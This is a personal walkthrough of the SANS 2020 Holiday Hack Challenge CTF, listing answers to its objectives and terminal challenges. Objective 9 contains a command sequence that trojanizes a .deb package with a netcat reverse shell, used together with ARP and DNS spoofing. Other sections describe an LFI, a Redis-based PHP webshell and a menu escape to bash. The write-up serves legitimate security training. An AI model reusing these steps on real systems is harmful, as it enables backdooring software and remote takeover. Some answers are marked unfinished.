








# SANS 2020 Holiday Hack<br>
Journey begins...<br>
<br>

Talk to Jingle Ringford and Objective 01 is unlocked
<br>
### <u>Objective 01: Uncover Santa's Gift List</u> ###
***Question: what gift is Santa planning on getting Josh Wright for the holidays?***

In the upper left-hand corner there is a billboard with an image.<br>
<br>
Clicking the image gives a high-rez version where you can see Santa's List and <a href="../ctfs/hh2020/imgs/obj1/billboard.PNG">download the file</a>. There are hints to use a tools to find the answer, but it can be done if you look closely :) Correct answer is: 
<i><b><span style="color:orange">proxmark</span></b></i><br>
<br>

Taking the jump to the Entry room, Shiny Upatree has a terminal challenge and an objective to complete<br>
<br>

### <u>Terminal Challenge: Kringle Kiosk</u>
Challenge is to break out of the menu map to /bin/bash.  Solution is to choose Option 4, enter <i><b><span style="color:orange">&/bin/bash</span></b></i><br>
<br>
<br>
<br>
### <u>Objective 02: Investigate S3 Bucket</u>
***Question: When you unwrap the over-wrapped file, what text string is inside the package?***<br>

First part of the objective, is to use the tool <i>bucket_finder</i> that's provided to scan public S3 buckets and find/download the correct file<br>
<br>
To do this, update the wordlist with the highlighted <b><span style="color:green">green</span></b> word Wrapper3000 (upper & lower) from the intro, then scan.<br>
<br>
Then go through a series of commands to sucessfully upwrap the file or package<br>
<br>
This gives the answer of <b><i><span style="color:orange">North Pole: The Frostiest Place on Earth</span></b></i><br>
<br>

### <u>Terminal Challenge: Unescape Tmux</u>
Pepper Minstix has a tmux terminal challenge<br>
<br>
<br>
The answer is simply <b><i><span style="color:orange">tmux attach</span></b></i><br>
<br>

Before moving into the Great Hall, pick up a candy cane as an item<br>
<br>

Talk to Sparkle Redberry, a Elevator Service Key is obtained<br>

<br>

Talk to Ginger Breddie, told of a half floor on the elevator and pickup a Hex Nut<br>

<br>

Moving to the Dining Room, Rob Bonbowford has <b><i>The Elf Code</b></i> challenges

### <u>Elf Code Challenges</u>
Code to beat Level 01<br>
<i><b><span style="color:orange">elf.moveLeft(10)</span></b></i><br>
<i><b><span style="color:orange">elf.moveUp(10)</span></b></i><br>

 <br>

Code to beat Level 02 - Trigger The Yeeter<br>
<i><b><span style="color:orange">elf.moveTo(lever[0])</span></b></i><br>
<i><b><span style="color:orange">var sum = elf.get_lever(0) + 2</span></b></i><br>
<i><b><span style="color:orange">elf.pull_lever(sum)</span></b></i><br>
<i><b><span style="color:orange">elf.moveLeft(4)</span></b></i><br>
<i><b><span style="color:orange">elf.moveUp(10)</span></b></i><br>
 <br>
Code to beat Level 03 - Move To Loopiness<br>
<i><b><span style="color:orange">elf.moveTo(lollipop[0])</span></b></i><br>
<i><b><span style="color:orange">elf.moveTo(lollipop[1])</span></b></i><br>
<i><b><span style="color:orange">elf.moveTo(lollipop[2])</span></b></i><br>
<i><b><span style="color:orange">elf.moveUp(1)</span></b></i><br>
 <br>
Code to beat Level 04 - Up Down Loopiness<br>
<i><b><span style="color:orange">for (let i = 0; i < 2; i++) {
	elf.moveLeft(2), elf.moveUp(40), elf.moveLeft(2), elf.moveDown(40)
}</span></b></i><br>
<i><b><span style="color:orange">elf.moveLeft(3)</span></b></i><br>
<i><b><span style="color:orange">elf.moveUp(10)</span></b></i><br>
 <br>
Code to beat Level 05 - Move To Madness<br>
<i><b><span style="color:orange">elf.moveTo(lollipop[1, 0])</span></b></i><br>
<i><b><span style="color:orange">elf.moveTo(munchkin[0])</span></b></i><br>
<i><b><span style="color:orange">var value = elf.ask_munch(0)</span></b></i><br>
<i><b><span style="color:orange">var answer = value.filter(Number.isInteger)</span></b></i><br>
<i><b><span style="color:orange">elf.tell_munch(answer)</span></b></i><br>
<i><b><span style="color:orange">elf.moveUp(2)</span></b></i><br>
 <br>
Code to beat Level 06 - Two Paths, Your Choice<br>
<i><b><span style="color:orange">for (let i = 0; i < 4; i++) {
elf.moveTo(lollipop[i])
}</span></b></i><br>
<i><b><span style="color:orange">elf.moveTo(lever[0])</span></b></i><br>
<i><b><span style="color:orange">var answer = elf.get_lever(0)</span></b></i><br>
<i><b><span style="color:orange">answer.unshift("munchkins rule")</span></b></i><br>
<i><b><span style="color:orange">elf.pull_lever(answer)</span></b></i><br>
<i><b><span style="color:orange">elf.moveDown(4)</span></b></i><br>
<i><b><span style="color:orange">elf.moveLeft(6)</span></b></i><br>
<i><b><span style="color:orange">elf.moveUp(6)</span></b></i><br>
 <br>

NEED TO COMPLETE 07 / 08 BONUS!!!!!!!!!!!!!!!
Level 7 - Yeeter Swirl

### <u>Terminal Challenge: Redis Bug Hunt</u>
Holly Evergreen has a Redis terminal challenge<br>
<br>
See that you can run Redis commands using curl and the maintenance page<br>
<br>
Write a php webshell, using the <a href="https://book.hacktricks.xyz/pentesting/6379-pentesting-redis">link</a> that was provided in the hints<br>
<br>
Using that webshell, call index.php to resolve the challenge<br>
<br>

### <u>33.6kbps Challenge</u>
Fitzy Shortstack has a challenge to complete a handshake for a modem.  The phone number is given: 756-8347<br>
<br>
<br>
To solve, pickup handset, dial the number given and choose the sounds in the following order:<br>
```
baa DEE brrr
aaah
WEWEWwrwrrwrr
beDURRdunditty
SCHHRRHHRTHRTR
```
Moving to the Courtyard, Sugarplum Mary has a Linux Primer Terminal Challenge and Objective 3<br>
<br>
### <u>Terminal Challenge: Linux Primer</u>
This challenge has several linux commands to run in order to get all the candy canes<br>
<br>
Twenty questions to this challenge with answers in orange
1. Perform a directory listing of your home directory to find a munchkin and retrieve a lollipop!
<i><b><span style="color:orange">ls</span></b><br>
2. Now find the munchkin inside the munchkin.
<i><b><span style="color:orange">cat munchkin_19315479765589239</span></b><br>
3. Great, now remove the munchkin in your home directory.
<i><b><span style="color:orange">rm munchkin_19315479765589239</span></b><br>
4. Print the present working directory using a command.
<i><b><span style="color:orange">pwd</span></b><br>
5. Good job but it looks like another munchkin hid itself in you home directory. Find the hidden munchkin!
<i><b><span style="color:orange">ls -alh</span></b><br>
6. Excellent, now find the munchkin in your command history.
<i><b><span style="color:orange">history</span></b><br>
7. Find the munchkin in your environment variables.
<i><b><span style="color:orange">env</span></b><br>
8. Next, head into the workshop.
<i><b><span style="color:orange">cd workshop</span></b><br>
9. A munchkin is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the munchkin is in.
<i><b><span style="color:orange">grep -ir munchkin</span></b><br>
10. A munchkin is blocking the lollipop_engine from starting. Run the lollipop_engine binary to retrieve this munchkin.
<i><b><span style="color:orange">chmod +x lollipop_engine && ./lollipop_engine</span></b><br>
11. Munchkins have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.
<i><b><span style="color:orange">cd electrical/ && mv blown_fuse0 fuse0</span></b><br>
12. Now, make a symbolic link (symlink) named fuse1 that points to fuse0
<i><b><span style="color:orange">ln -s fuse0 fuse1</span></b><br>
13. Make a copy of fuse1 named fuse2.
<i><b><span style="color:orange">cp fuse1 fuse2</span></b><br>
14. We need to make sure munchkins don't come back. Add the characters "MUNCHKIN_REPELLENT" into the file fuse2.
<i><b><span style="color:orange">echo "MUNCHKIN_REPELLENT" >> fuse2</span></b><br>
15. Find the munchkin somewhere in /opt/munchkin_den.
<i><b><span style="color:orange">cd /opt/munchkin_den && ls -alhR . | grep -i munchkin</span></b><br>
16. Find the file created by munchkins that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/munchkin_den.
<i><b><span style="color:orange">find . -size +108k -size -110k</span></b><br>
17. List running processes to find another munchkin.
<i><b><span style="color:orange">ps -aux</span></b><br>
18. The 14516_munchkin process is listening on a tcp port. Use a command to have the only listening port display to the screen.
<i><b><span style="color:orange">netstat -ant</span></b><br>
19. The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last munchkin.
<i><b><span style="color:orange">curl http://localhost:54321</span></b><br>
20. Your final task is to stop the 14516_munchkin process to collect the remaining lollipops.
<i><b><span style="color:orange">pkill 14516_munchkin</span></b><br>

Challenge completed<br>
<br>


### <u>Objective 3: Point-of-Sale Password Recovery</u>
***Question: What's the password for the Point-of-Sale Terminal***<br>
An offline version of the electron application is available for download to recover the terminal password.<br>
<br>
Running the .exe, installs the app and gives a password prompt<br>
<br>
Using the <a href="https://medium.com/how-to-electron/how-to-get-source-code-of-any-electron-application-cbb5c7726c37">link</a> provided in the hints, install asar and extract the source<br>
<br>
From this the password is found: <i><b><span style="color:orange">santapass</span></i></b><br>
<br>
Objective completed<br>
<br>

Still in the Courtyard, a green light bulb is found in the upper left-hand side of the area<br>
<br>

### <u>Objective 4: Operate the Santavator</u>
Heading back to the Entry room, time to operate the Elevator<br>
Given the buttons, there is a key that gives way how to power the elevator<br>
<br>
Moving the green lightbulb and the hex nut to direct the steam, it powers the elevator to get to level 2<br>
 
Objective completed<br>


On the Talks floor, a red light bulb is found upper right-hand corner of the room<br>
<br>

### <u>Terminal Challenge: Speaker UNPrep</u>
Bushy Evergreen holds three challengs in one for the Speaker UNPrep challenge<br>
<br>
<br>

#### <u>Door app</u> ####
Running strings against the door, password is reveal: <i><b><span style="color:orange">Op3nTheD00r</span></i></b><br>
<br>
Door Open!<br>
<br>

#### <u>Lights app</u> ####
In lab section, updating the name to the same as the encrypted password reveals the password when running the app<br>
<br>
Lights On!<br>
<br>

#### <u>Vending Machine app</u> ####
Looking at the .json config file for the app, there is an encoded password<br>
<br>
Deleting the .json config file in the lab section, allows you to create name and password<br>
<br>
Looking at the new .json file, you see santa name encoded<br>
<br>
After some trial and error, the password is revealed: <i><b><span style="color:orange">CandyCane1</span></i></b><br>
Vending Machine enabled!<br>
<br>

Moving into the room off of the talks lobby, in the lower right-hand corner, the button for the elevator floor 1.5 is found<br>
<br>

Checking the vending machine, a portals object is revealed<br>


Moving to the Dining Room, another Hex Nut can be found on the top side of the dining table<br>
<br>

### <u>Snowball Fight Challenge</u> ###
***Beat the game on Impossible setting***<br>
Tangle Coalbox has a game with four different levels to beat<br>
<br>
Extra Instances: <a href="https://snowball2.kringlecastle.com/">https://snowball2.kringlecastle.com/</a><br>
The player name corresponds to the arrangement of the opponent's board.<br>
<br>
Simply hit on all the necessary squares before your opponent<br>
<br>
Strategy for beating Easy through Hard:
1. Easy: trival as you can beat the opponent without running out of turns.
2. Medium: can be easily won as you can choose your name and simply choose the same as when you won Easy
3. Hard: you cannot choose your own name, but you can see it once you start. Simply spin up a new instance under Easy with same name/number

Winning on Easy-Hard<br>
<br>

To complete Impossible level, it's recommended to watch the Mersene Twister <a href="https://www.youtube.com/watch?v=Jo5Nlbqd-Vg">talk</a> and/or use the tool <a href="https://github.com/kmyk/mersenne-twister-predictor/blob/master/readme.md">here</a><br>
Next when starting the game, it's shown the player ID is redacted<br>
<br>

However if you look at the source, you'll find 624 random numbers in the source along with the redacted one<br>
 <br>

To find this redacted number, take the 624 numbers and add to a clean file.  Then cat that file while piping to the Mersene Twister app and print the first outputted number using <i><b>head -1</i></b> <br>
<br>

Finding that number, spin up another instance playing on Easy to find where to attack. Using that data, the impossible level can be beat.<br>
<br>

Moving back to the elevator, it's now possible to power red and green. This opens both floors 1.5 (Workshop) and rooftop (NetWars)<br>
 <br>
Taking the elevator to the Workshop, a Large Marble object is found.<br>


### <u>Terminal Challenge: Sort-O-Matic</u>
Minty Candycane needs help with the sort-o-matic machine<br>
<br>
Regex is need to solve the challenge<br>
<br>
<i><b><span style="color:orange">\d</span></i></b><br>
<i><b><span style="color:orange">[azAZ]</span></i></b><br>
<i><b><span style="color:orange">[a-z0-9]{2}</span></i></b><br>
<i><b><span style="color:orange">^(?!.*?[A-L1-5]).*</span></i></b><br>
<i><b><span style="color:orange">^[0-9]{3,}$</span></i></b><br>
<i><b><span style="color:orange">^(((([0-1][0-9])|(2[0-3])):?[0-5][0-9]:?[0-5][0-9]+$))</span></i></b><br>
<i><b><span style="color:orange">^[a-fA-F0-9]{2}(:[a-fA-F0-9]{2}){5}$</span></i></b><br>
FIXXX
<i><b><span style="color:orange">^(0[1-9]|1[0-4])[\/.-](0[1-9]|1\d|2\d|3[01]\)\[\/.-](19|20)\d{2}$</span></i></b><br>
Challenge solved<br>
<br>

Moving up a room, a Large Marble object is found.<br>
<br>

In the same room, a Proxmark3 device is found<br>


### <u>Objective 5: Open HID Lock</u>
***Use the interactive Proxmark3 device to solve objective 5 and open the door to the Sorting room***<br>

Device allows for interaction<br>
<br>

Prox Ids can be captured from elves using auto from the device<br>
<br>

Correct Prox Id is found on Bow Ninecandle<br>

<br>

Heading back to the locked door in the sorting room, using the correct command and Prox Id, the door unlocks<br>
<br>

Objective completed. This opens up six new objectives.<br>
<br>

From the new room there is a light at the end, going through our character becomes santa :)<br>


With this change, the teleport option opens which makes moving around easier<br>


### <u>Objective 6: Splunk Challenge</u> ###
***Question: What is the name of the adversary group that Santa feared would attack KringleCon?***<br>

Moving to the Great Room, find Angel Candysalt with the next Objective<br>
<br>

Eight total questions in this challenge using Splunk:
1. How many distinct MITRE ATT&CK techniques did Alice emulate?)
<br>Answer: <i><b><span style="color:orange">13</span></b><br>
2. What are the names of the two indexes that contain the results of emulating Enterprise ATT&CK technique 1059.003? (Put them in alphabetical order and separate them with a space)
<br>Answer: <i><b><span style="color:orange">t1059.003-main t1059.003-win</span></b><br>
3. One technique that Santa had us simulate deals with 'system information discovery'. What is the full name of the registry key that is queried to determine the MachineGuid?
<br>Answer: <i><b><span style="color:orange">HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography</span></b><br>
4. According to events recorded by the Splunk Attack Range, when was the first OSTAP related atomic test executed? (Please provide the alphanumeric UTC timestamp.)
<br>Answer: <i><b><span style="color:orange">2020-11-30T17:44:15Z</span></b><br>
5. One Atomic Red Team test executed by the Attack Range makes use of an open source package authored by frgnca on GitHub. According to Sysmon (Event Code 1) events in Splunk, what was the ProcessId associated with the first use of this component?
<br>Answer: <i><b><span style="color:orange">3648</span></b><br>
6. Alice ran a simulation of an attacker abusing Windows registry run keys. This technique leveraged a multi-line batch file that was also used by a few other techniques. What is the final command of this multi-line batch file used as part of this simulation?
<br>Answer: <i><b><span style="color:orange">quser</span></b><br>
7. According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range?
<br>Answer: <i><b><span style="color:orange">55FCEEBB21270D9249E86F4B9DC7AA60</span></b><br>
8. What is the name of the adversary group that Santa feared would attack KringleCon?
<br>Answer: <i><b><span style="color:orange">The Lollipop Guild</span></b><br>

Final answer is solved using the hints given (Ciphertext: 7FXjP1lyfKbyDK/MChyf36h7) and (RFC7465: RC4)<br>
By watching <a href="https://www.youtube.com/watch?v=RxVgEFt08kU&ab_channel=KringleCon">Adversary Emulation and Automation</a> talk Santa's phrase can be obtained<br>
Use CyberChef and decode<br>
<br>
<br>

Moving to the NetWars floor, Wunorse Openslae holds the next terminal challenage and Objective 7<br>
<br>

First the YelloW Light Bulb for the elevator can be found next to Wunorse<br>
<br>

### <u>Objective 7: Solve the Sleigh's CAN-D-BUS Problem</u> ###
***Requires two entries to filter out the bad codes***<br>
<br>

Following codes are determined:<br>
Start: 02A#00FF00<br>
Stop: 02A#0000FF<br>
Lock: 19B#000000000000<br>
Unlock: 19B#00000F000000<br>
Steering: 019 - ALL<br>
Brake: 080 - ALL<br>

Correct Filters to solve:<br>
<i><b><span style="color:orange">19B Equals 0000000F2057</span></b><br>
<i><b><span style="color:orange">080 Contains FFF</span></b><br>

<br>
<br>

### <u>Terminal Challenge: CAN-Bus Investigation</u> ###
<br>
Like the objective, this file needs to be filtered<br>
<br>
Using the unlock code <i>19B#00000F000000</i> found from the objective, this can easily be found in the file using grep<br>
<br>
With a timestamp of 1608926671.122520, just submit <i><b><span style="color:orange">122520</span></i></b> to answer<br>
<br>

Heading to Wrapping Room, to talk with Noel Boetie for the next Objective<br>
<br>

### <u>Objective 8: Broken Tag Generator</u> ###
***Question: What value is in the environment variable GREETZ?***<br>

Given the tag generator <a href="https://tag-generator.kringlecastle.com/">link</a>, it would seem an upload is possible using the interface<br>
<br>
In Chrome Dev Tools, the image can be found and called directly using <b>id=</b><br>
<br>
Uploading a .php fails, but reveals the path that it's stored in<br>
 <br>
After some trial and error, an LFI is found and can read /etc/passwd<br>
<br>
Answer is found in /proc/self/environ of <i><b><span style="color:orange">JackFrostWasHere</span></i></b><br>
<br>
<br>

Heading back to NetWars floor, Alabaster Snowball has a Terminal challenge and Objective 9<br>
<br>

### <u>Terminal Challenge: Scapy Prepper</u> ###
<br>
15 Scapy questions followed by answers in <i><b><span style="color:orange">orange</span></i></b>:
1. Start by running the task.submit() function passing in a string argument of 'start'.
<i><b><span style="color:orange">task.submit('start')</span></i></b>
2. Submit the class object of the scapy module that sends packets at layer 3 of the OSI model.
<i><b><span style="color:orange">task.submit(send)</span></i></b>
3. Submit the class object of the scapy module that sniffs network packets and returns those packets in a list.
<i><b><span style="color:orange">task.submit(sniff)</span></i></b>
4. Submit the NUMBER only from the choices below that would successfully send a TCP packet and then return the first sniffed response packet to be stored in a variable named "pkt": <i><b><span style="color:orange">task.submit(1)</span></i></b>
	1. pkt = sr1(IP(dst="127.0.0.1")/TCP(dport=20))
	2. pkt = sniff(IP(dst="127.0.0.1")/TCP(dport=20))
	3. pkt = sendp(IP(dst="127.0.0.1")/TCP(dport=20))
5. Submit the class object of the scapy module that can read pcap or pcaPNG" files and return a list of packets.
<i><b><span style="color:orange">task.submit(rdpcap)</span></i></b>
6. The variable UDP_PACKETS contains a list of UDP packets. Submit the NUMBER only from the choices below that correctly prints a summary of UDP_PACKETS:<i><b><span style="color:orange">task.submit(2)</span></i></b>
	1. UDP_PACKETS.print()
	2. UDP_PACKETS.show()
	3. UDP_PACKETS.list()
7. Submit only the first packet found in UDP_PACKETS.
<i><b><span style="color:orange">task.submit(UDP_PACKETS[0])</span></i></b>
8. Submit only the entire TCP layer of the second packet in TCP_PACKETS.
<i><b><span style="color:orange">pkt = TCP_PACKETS[1]</span></i></b>
<i><b><span style="color:orange">task.submit(pkt[TCP])</span></i></b>
9. Change the source IP address of the first packet found in UDP_PACKETS to 127.0.0.1 and then submit this modified packet
<i><b><span style="color:orange">pkt[IP].src = '127.0.0.1'</span></i></b>
<i><b><span style="color:orange">task.submit(pkt[IP])</span></i></b>
10. Submit the password "task.submit('elf_password')" of the user alabaster as found in the packet list TCP_PACKETS.
<i><b><span style="color:orange">TCP_PACKETS[6] </span></i></b>
<i><b><span style="color:orange">task.submit('echo')</span></i></b>
11. The ICMP_PACKETS variable contains a packet list of several icmp echo-request and icmp echo-reply packets. Submit only the ICMP chksum value from the second packet in the ICMP_PACKETS list.
<i><b><span style="color:orange">ICMP_PACKETS[1][ICMP].chksum</span></i></b>
<i><b><span style="color:orange">task.submit(19524)</span></i></b>
12. Submit the number of the choice below that would correctly create a ICMP echo request packet with a destination IP of 127.0.0.1 stored in the variable named "pkt" <i><b><span style="color:orange">task.submit(3)</span></i></b>
	1. pkt = Ether(src='127.0.0.1')/ICMP(type="echo-request")
	2. pkt = IP(src='127.0.0.1')/ICMP(type="echo-reply")
	3. pkt = IP(dst='127.0.0.1')/ICMP(type="echo-request")
13. Create and then submit a UDP packet with a dport of 5000 and a dst IP of 127.127.127.127. (all other packet attributes can be unspecified)
<i><b><span style="color:orange">pkt = IP(dst='127.127.127.127')/UDP(dport=5000)</span></i></b>
14. Create and then submit a UDP packet with a dport of 53, a dst IP of 127.2.3.4, and is a DNS query with a qname of "elveslove.santa". (all other packet attributes can be unspecified)
<i><b><span style="color:orange">pkt = IP(dst='127.2.3.4')/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname='elveslove.santa'))</span></i></b>
15. The variable ARP_PACKETS contains an ARP request and response packets. The ARP response (the second packet) has 3 incorrect fields in the ARP layer. Correct the second packet in ARP_PACKETS to be a proper ARP response and then task.submit(ARP_PACKETS) for inspection.
<i><b><span style="color:orange">pkt = ARP_PACKETS[1]</span></i></b>
<i><b><span style="color:orange">pkt[ARP].hwsrc='00:13:46:0b:22:ba'</span></i></b>
<i><b><span style="color:orange">pkt[ARP].hwdst='00:16:ce:6e:8b:24'</span></i></b>
<i><b><span style="color:orange">task.submit(ARP_PACKETS)</span></i></b><br>

<br>

### <u>Objective 9: ARP Shenanigans</u> ###
***Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?***<br>
For this challenge spoofing ARP and DNS is necessary, then find a manner to send a malicious .deb package in order to read the file listed<br>
There are both ARP and DNS starter scripts in the /scripts folder and .deb packages in the /debs folder<br>
<br>

***ARP Spoof*** <br>
Need to find the mac of 10.6.6.53 using <b><i>tcmdump -nei eth0</b></i> which is <b>4c:24:57:ab:ed:84</b> <br>
<br>
Get local info using <i><b>ifconfig</b></i> and local IP is <b><i>10.6.0.6</b></i> with mac <b><i>02:42:0a:06:00:06</i></b><br>
<br>
Next update the ARP script with this information<br>
<br>
With tcpdump running, kick off the updated arp script. There should be a response that 10.6.6.53 is at the local mac address and a dns query to <i>ftp.osuosl.org</i><br>
<br>
Then update the DNS script the information obtained<br>
<br>
With tcpdump running, kick off both the updated arp and dns scripts. Leveraging the ability to have multiple terminal windows open.  Additional traffic will show<br>
<br>
In the additional traffic there is a call to port 80.  With the same setup before, add an additional window with a listner on port 80. This reveals a call to a .deb package<br>
<br>
Loosely following guide by Offensive Security <a href="https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/">here</a>, a reverse can be obtained.<br>
Package/System setup with the following commands:<br>
<i><b><span style="color:orange">dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb workdir<br>
mkdir -p workdir/DEBIAN<br>
dpkg-deb -e netcat-traditional_1.10-41.1ubuntu1_amd64.deb<br>
cp DEBIAN/postinst DEBIAN/control workdir/DEBIAN/<br>
/bin/nc -e /bin/bash 10.6.0.6 1337<br>
dpkg-deb --build workdir/<br>
mkdir -p pub/jfrost/backdoor<br>
cp workdir.deb pub/jfrost/backdoor/suriv_amd64.deb<br>
cd ~/debs/<br>
python3 -m http.server 80<br>
nc -nlvvp 1337</span></i></b><br>

With both a listener for the reverse shell and the web download, the DNS script can be triggered, and followed by the ARP script.  And a reverse shell on the system<br>
<br>
Reading the output of the document, <i><b><span style="color:orange">Tanta Kringle</span></i></b> is the answer for the objective.<br>
<br>

<br>
### <u>Objective 10: Defeat Fingerprint Sensor</u> ###
***Bypass the fingerprint sensor on the elevator***<br>
For next object, switch back to normal self by going to Entry room and head through the painting of Santa<br>
First get elevator to full power now that the Yellow Light bulb has been obtained<br>
<br>
Looking in the dev tools of Chrome, it's easy to see there is an object to <b></i>besanta</b></i><br>
<br>
Simply add this to the iframe, the page reloads and the scan fingerprint is allowed<br>
<br>
<br>

Tinsel Upatree holds the clue for the next Objective, but our character must be Santa<br>
Switching back, the next clue is a blockchain.dat file available for download <a href="https://download.holidayhackchallenge.com/2020/blockchain.dat">here</a>. Also, Tinsel provides some tools to help in the next objective available for download <a href="https://download.holidayhackchallenge.com/2020/OfficialNaughtyNiceBlockchainEducationPack.zip">here</a><br>
<br>

### <u>Objective 11a: Naughty/Nice List with Blockchain Investigation Part 1</u> ###
***Even though the chunk of the blockchain that you have ends with block 129996, can you predict the nonce for block 130000?***<br>
Provided in the tools is a necessary python script and certificates.  First step is to update the script to get information out of the blockchain file.<br>
The following code is uncommented in the script, with modification:<br>
<i><b><span style="color:orange">with open('official_public.pem', 'rb') as fh:<br>
        &nbsp;&nbsp;&nbsp;&nbsp;official_public_key = RSA.importKey(fh.read())<br>
    &nbsp;&nbsp;&nbsp;&nbsp;c2 = Chain(load=True, filename='blockchain.dat')<br>
    print('C2: Block chain verify: %s' % (c2.verify_chain(official_public_key)))<br>
	print(c2.blocks[0])</span></i></b><br>

This prints out one block starting @ 128449.  It needs to go to 129996 according to the objective.<br>
Code update. Replace <b><i>print(c2.blocks[0])</b></i> with the following:<br>
<i><b><span style="color:orange">for i in range(1548):<br>
        print(c2.blocks[i])</span></i></b><br>

